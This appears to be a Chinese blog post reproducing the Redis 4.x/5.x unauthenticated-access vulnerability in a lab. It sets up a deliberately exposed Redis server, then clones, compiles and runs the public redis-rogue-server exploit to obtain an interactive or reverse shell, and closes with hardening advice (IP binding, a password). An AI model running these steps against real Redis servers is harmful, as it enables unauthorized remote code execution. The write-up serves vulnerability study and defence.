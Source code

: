 ```yaml
---
title: Redis 4.x/5.x 未授权访问漏洞
categories:
  - 漏洞复现
abbrlink: 46878
date: 2020-11-30 11:42:29
---
```

　　看了安恒红皮书的redis未授权漏洞，本章复现此漏洞，不得不说网上的坑很多，真的多。安装环境都在linux下进行
<!-- more -->

###  环境搭建

```bash
wget http://download.redis.io/releases/redis-5.0.5.tar.gz
tar xzf redis-5.0.5.tar.gz
cd redis-5.0.5/
make
make install
```
　　到这里不出意外的话，能使用如图所示的命令
　　<img src="https://s3.ax1x.com/2020/11/30/D21tcn.png">

### 修改配置文件
　　当前目录下有个redis.conf文件，将bing 127.0.0.1 这行前面添加#，将protected-mode yes 改为no
　　<img src="https://s3.ax1x.com/2020/11/30/D23vs1.png">

### 启动redis

```bash
# 使用带配置文件启动
redis-server redis.conf # 注意配置文件路径
```
### 下载exp
　　这里我参考别人复现的时候，因时间已久，很多exp已不能用或者github地址404。当你参考此文章时，我也不能保证是否会出现上述情况，请自己寻找其他exp
```bash
git clone https://github.com/SnowMeteors/redis-rogue-server.git
```
编译exp

```bash
cd redis-rogue-server/RedisModulesSDK/exp/
make
```
　　完成后，会在当前目录生成一个exp.so文件
　　<img src="https://s3.ax1x.com/2020/11/30/D2NxLd.png">
　　将exp.so 复制到`redis-rogue-server.py`同一目录下
　　执行以下命令

```bash
python3 redis-rogue-server.py --rhost 靶机ip --lhost 127.0.0.1
```
　　执行成功后，输入i进入交互式shell，输入r进入反弹shell
　　<img src="https://s3.ax1x.com/2020/11/30/D2DDpt.png">
　　详细功能，参考redis-rogue-server-master下的README.md，已经写的非常详细了
### 修复建议
　　１.只有白名单的ip才能访问redis
　　在 redis.conf 文件中找到 # bind 127.0.0.1，将前面的 # 去掉，然后保存。

```bash
bind 192.168.1.100 127.0.0.1
```
　　2.设置访问密码
　　在 redis.conf 中找到 requirepass 字段，去掉其注释，并在后面填上需要的密码

```bash
requirepass 123456789
```

